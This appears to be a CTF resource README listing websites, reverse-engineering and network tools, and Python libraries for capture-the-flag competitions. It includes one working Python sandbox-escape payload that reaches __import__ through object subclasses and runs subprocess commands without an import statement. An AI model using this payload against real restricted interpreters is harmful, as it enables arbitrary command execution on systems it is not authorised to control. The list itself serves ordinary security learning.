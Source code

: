 # CTF-Things



## A list of useful things that can help you in CTFs.
---------------------------------------
## Websites

### [Beeceptor](https://beeceptor.com/)
```
A website where you can create a mock api that can act as your server and recive requests, very good for SSRFs!
```

### [Gdb cheat sheet](https://gist.github.com/rkubik/b96c23bd8ed58333de37f2b8cd052c30)
```
Help with finding commangs for gdb
```

### [Online assembler](https://defuse.ca/online-x86-assembler.htm)
```
An online assembler that shows the machine code of instructions
very usefull for running code exploits.
```

-----------------------
## Payloads

### [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
```
A useful repository that has all kinds of payload for a lot of diffrent attacks.
```

### A Python code that can call a function from any library without using the import statment.
```
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__'](<the library name>).<the function>

example:
[t for t in ().__class__.__base__.__subclasses__() if t.__name__ == 'Sized'][0].__len__.__globals__['__builtins__']['__import__']("subprocess").check_output(['ls', '-l'])

In this example we call the check_output function from the subprocess library.
This example can essentioly run any shell code on the machine using python.
```

-----------------------------
## Tools

### [Burp suite](https://portswigger.net/burp/communitydownload)
```
Everyone knows burpsuite, but for those who dont I can explain:
essentialy burp suite let you see your http traffic, act as a proxy, change http requests, and a lot more!!!
```


### [Wireshark](https://www.wireshark.org/)
```
Another classic like burp suite...
Wireshark lets you sniff the network traffic on your computer and open sniffs files.
```

### [Ida](https://hex-rays.com/ida-free/)
```
A reverse engineering tool!
lets you see the assembly code of a program in a graph representation.
```

### [Ghidra](https://github.com/NationalSecurityAgency/ghidra)
```
A decompiler for cpp, very good for reverse engineering!
```

### [Gdb](https://www.sourceware.org/gdb/)
```
A very usefull debugger to debug low level code and find exploits.
```

### [Gdp PEDA](https://github.com/longld/peda)
```
A gdb extension that helps with finding exploits in binaries.
```

-----------------------------
## Python libraries

### [Requests](https://pypi.org/project/requests/)
```
A python library that lets you send http requests on the web.
```

### [Pwn tools](https://docs.pwntools.com/en/stable/)
```
A python library that gives you a lot of tools to use in CTFs.
Tools like - netcat from a script with the pwn.remote function, analizing binary files.
```

******************
